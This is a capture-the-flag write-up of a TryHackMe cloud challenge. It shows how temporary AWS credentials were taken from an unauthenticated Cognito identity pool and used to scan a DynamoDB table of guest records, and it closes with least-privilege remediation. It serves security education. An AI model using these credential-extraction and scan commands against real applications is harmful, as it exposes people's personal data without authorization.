


# Challenge 3: Complimentary

## Overview

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Event** | Hacker Holidays 2026 |
| **Category** | Cloud Security / AWS |
| **Difficulty** | Easy |
| **Vulnerability Type** | IAM Misconfiguration / Excessive Permissions |

---

## Objective

Determine how the "Byte Lotus Wellness" application obtained AWS access without any login system, then exploit the resulting permission misconfiguration to access other guests' data and extract the flag.

**Flag:**
```
THM{*****}
```

---

## Reconnaissance and Analysis

### Initial Observations

Upon opening the application, it was clear that it had:

- No login page
- No account creation
- No user authentication system

Despite this, the application was still able to identify the user and display personal information — raising the question of how it obtained access to that data in the first place.

### Source Code Analysis

The site's JavaScript files were examined using:

- Browser DevTools (F12)
- JavaScript source analysis

This revealed the following configuration values:

```javascript
const IDENTITY_POOL_ID = "us-east-1:836c0949-292d-485b-b532-52d5ca7bb688";
const AWS_REGION = "us-east-1";
const TABLE_NAME = "complimentary-GuestWellnessProfiles";
```

### Services Identified

| Service | Purpose |
|---|---|
| Amazon S3 | Static website hosting |
| Amazon Cognito Identity Pool | Issuing temporary AWS credentials to visitors |
| AWS IAM | Access control |
| Amazon DynamoDB | Guest data storage |

### Tools Used

- Kali Linux
- Browser DevTools (F12)
- JavaScript source analysis
- AWS CLI
- DynamoDB Scan
- Terminal

### Rationale for the Next Step

The presence of:

```javascript
AWS.CognitoIdentityCredentials()
```

in the code indicated that the application obtains temporary AWS credentials via Cognito. Since the app required no login, this pointed to the use of an **Unauthenticated Cognito Identity** — meaning any visitor could obtain a temporary AWS identity. This led to the decision to extract these credentials and assess their access level.

---

## Root Cause

**Vulnerability:** IAM Misconfiguration / Excessive Permissions.

Unauthenticated Cognito users were granted permissions far beyond what was required.

The correct security principle here is the **Principle of Least Privilege** — a user should only be granted the minimum access necessary. In this application, a guest should only have been able to read their own data. Due to a misconfigured IAM role, however, a guest was able to:

- Perform a full `DynamoDB Scan`
- Read every guest record in the table

### How the Misconfiguration Manifested

The Cognito Identity Pool was linked to the role:

```
complimentary-cognito-unauth-role
```

This role granted unrestricted access to the table:

```
complimentary-GuestWellnessProfiles
```

with no restriction limiting access to the requesting user's own record.

---

## Discovery Process

After extracting AWS credentials from Cognito, the resulting permissions were tested using the AWS CLI. Identity was verified with:

```
aws sts get-caller-identity --region us-east-1
```

**Result:**
```
arn:aws:sts::332173347248:assumed-role/complimentary-cognito-unauth-role/CognitoIdentityCredentials
```


This confirmed the session was running under an unauthenticated guest role.

### Testing DynamoDB Access

```
aws dynamodb scan \
  --table-name complimentary-GuestWellnessProfiles \
  --region us-east-1
```

**Findings:** The scan succeeded and returned multiple guest records containing:

- Guest names
- Email addresses
- Phone numbers
- Passwords
- Location data

Example entry:
```json
{
  "name": "Vibe",
  "email": "vibe@hackerholidays.thm"
}
```

This confirmed unauthorized data disclosure.

---

## Exploitation

### Step 1 — Analyzing JavaScript

The site's files were opened via Browser DevTools and searched for the keywords `cognito`, `aws`, and `dynamodb`, which surfaced the `IdentityPoolId`.

### Step 2 — Extracting AWS Credentials

Using the browser console:

```javascript
AWS.config.credentials.get(function(err){
  console.log(AWS.config.credentials);
});
```

This returned:

- Access Key ID
- Secret Access Key
- Session Token

### Step 3 — Configuring the AWS CLI

```
export AWS_ACCESS_KEY_ID="..."
export AWS_SECRET_ACCESS_KEY="..."
export AWS_SESSION_TOKEN="..."
```

### Step 4 — Verifying Identity

```
aws sts get-caller-identity --region us-east-1
```

**Result:** confirmed identity as `complimentary-cognito-unauth-role`.

### Step 5 — Reading DynamoDB Data

```
aws dynamodb scan \
  --table-name complimentary-GuestWellnessProfiles \
  --region us-east-1
```


The scan succeeded due to the IAM misconfiguration.

### Step 6 — Extracting the Flag

The flag was found at the bottom of the scan output:

```
THM{*****}
```

---

## Result

- Full access to all guest records in DynamoDB was obtained.
- The intended access boundaries for a guest user were bypassed.
- The flag was successfully extracted.

**Shell access obtained?** No.
**Privilege escalation achieved?** No traditional privilege escalation occurred; however, **privilege abuse** took place due to an incorrectly configured IAM role.

---

## Mitigation / Remediation

**Apply the Principle of Least Privilege**
The guest role should only permit the strictly necessary operations. For example, instead of granting:
```
dynamodb:Scan
```
only the following should be allowed:
```
dynamodb:GetItem
```
combined with restricting access to the requesting user's own record.

**Use Fine-Grained IAM Policies**
DynamoDB permissions should be tied to the user's identity, e.g.:
```
Allow access only where:
guest_id = current identity
```

**Restrict Unauthenticated User Access**
Unauthenticated Cognito identities should never be granted broad read access to sensitive data.

**Protect Sensitive Data**
The following should never be stored in plaintext in DynamoDB:
- Passwords
- Contact information
- Sensitive personal details

---

## Lessons Learned

- Learned how to analyze cloud applications to identify the backend services in use.
- Learned how to detect the use of AWS Cognito through JavaScript source files.
- Learned how to extract temporary AWS credentials from a Cognito-backed application.
- Learned how to use the AWS CLI to interact with AWS services.
- Learned that IAM misconfigurations can expose the data of all users in an application.
- Learned the importance of applying the Least Privilege principle in cloud environments.

---

## References

- [AWS Cognito Documentation](https://docs.aws.amazon.com/cognito/)
- [AWS IAM Documentation](https://docs.aws.amazon.com/IAM/latest/UserGuide/getting-started.html)
- [AWS DynamoDB Documentation](https://docs.aws.amazon.com/dynamodb/)

